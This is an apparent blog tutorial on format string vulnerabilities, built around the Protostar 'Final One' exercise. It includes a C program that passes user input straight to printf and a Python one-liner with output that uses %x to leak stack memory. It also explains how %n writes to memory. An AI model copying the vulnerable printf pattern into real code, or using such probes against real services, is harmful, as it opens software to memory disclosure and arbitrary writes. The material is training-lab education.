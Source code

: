 ```yaml
---
title: Binary Exploitation - Protostar - Format String
date: 2020-01-03 20:07:49
tags: Security
---
```


# Introduction
For this section, we'll be looking into the exploits that are associated with format string vulnerabilities. 

We will be using [Final One](https://exploit.education/protostar/final-one/) from the Protostar Exploit Exercises on the Protostar VM. This VM gives us an environment where modern security features, such as ASLR are not enabled.

The last caveat is that this exploit will be done "over the network", as the binary that we will be exploiting is a "web server" that accepts TCP connections that emulates an authentication server.

# Vulnerability
The vulnerability is when raw user input is passed into `printf()` from the stack, then we can arbitrarily write to an arbitrary address using `%x$n`, which will write to the `xth` variable.

The `%n` flag will write the number of characters printed so far. 

The exploit can be demonstrated using this small snippet.

```c
#include <stdio.h>

int zero = 0;

int main() {
	char text[124];
	fgets(text, 124, stdin);
	printf(text);
	printf("%d\n", zero);
}
```

The first interesting thing we can do is shown below.
```bash
python -c "print 'AAAA' + ' %x' * 20" | ./format-str-vuln    
```
We get output:
```bash
AAAA 7c b7fd8420 bffff6f4 b7fec242 41414141 20782520 25207825 78252078 20782520 25207825 78252078 2078252 0 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078
```
You should know that passing `%x` into `printf()` will cause it to print out the nth parameter in hex form.

What we can see here, is that even through we don't pass any extra parameters to `printf(text)` , `printf()` still attempts print out the parameters. Furthermore, we can even see that we our `AAAA`'s in the memory that is printed. This is because, `fgets()` writes to `text` which is on the stack of `main()`. Thus, when `printf()`  attempts to print the subsequent arguments, it will go through the stack and eventually reach the stack for `main()` and subsequently the string that we provided. 
